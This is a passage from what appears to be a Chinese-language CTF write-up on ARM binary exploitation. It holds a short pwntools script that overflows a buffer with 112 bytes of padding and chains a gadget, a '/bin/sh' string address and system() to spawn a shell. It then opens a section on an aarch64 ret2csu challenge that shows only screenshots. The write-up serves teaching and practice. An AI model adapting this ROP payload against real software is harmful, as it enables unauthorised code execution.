 ```plain
r0_r4=0x00020904
bin_sh=0x0006c384
system=0x00010BA8
s('\n')
pl='a'*112+p32(r0_r4)+p32(bin_sh)+p32(0)+p32(system)
s(pl)
itr()
```

## baby\_arm (aarch64 ret2csu)

### 思路

[![](assets/1703209924-5cb8d4e6d60b6f96131c33658633c3f0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221164832-b83caf66-9fdd-1.png)  
先动调熟悉一下

[![](assets/1703209924-995525b22057b7322c6de7c1ecc28c98.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221164843-bea32506-9fdd-1.png)
